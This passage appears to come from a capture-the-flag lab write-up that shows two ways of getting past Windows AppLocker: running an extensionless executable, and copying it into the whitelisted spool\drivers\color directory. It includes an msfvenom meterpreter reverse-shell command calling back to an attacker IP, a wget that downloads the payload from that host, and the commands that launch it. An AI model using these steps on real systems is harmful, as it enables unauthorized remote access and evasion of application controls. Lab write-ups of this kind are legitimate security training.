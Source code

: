 #### Extensionless

It turns out that while AppLocker is blocking `.exe` files, I can still upload an executable and run it without that extension.

I’ll generate a payload:

```

oxdf@hacky$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=443 -f exe -o met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: met.exe

```

Now upload it. Saving it as `met.exe` fails, but `met` succeeds:

```

PS C:\programdata> wget 10.10.14.6/met.exe -outfile met.exe
Invoke-PowerShellTcp : Access to the path 'C:\programdata\met.exe' is denied.
At line:127 char:1
+ Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
   tion
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
   n,Invoke-PowerShellTcp

PS C:\programdata> wget 10.10.14.6/met.exe -outfile met

```

Now I’ll just start the process with PowerShell:

```

PS C:\programdata> Start-Process -Filepath C:\programdata\met -Wait -NoNewWindow

```

And it returns a shell at `msfconsole`.

#### color Directory

There’s a common directory, `C:\Windows\System32\spool\drivers\color`, which is known to be a AppLocker whitelisted directory, and it’s world writable. For example:

```

PS C:\programdata> copy met met.exe
copy : Access to the path 'C:\programdata\met.exe' is denied.
At line:1 char:1
+ copy met met.exe
+ ~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\programdata\met:FileInfo)  
   [Copy-Item], UnauthorizedAccessException
    + FullyQualifiedErrorId : CopyFileInfoItemUnauthorizedAccessError,Microsof 
   t.PowerShell.Commands.CopyItemCommand
PS C:\programdata> copy met C:\windows\system32\spool\drivers\color\met.exe

```
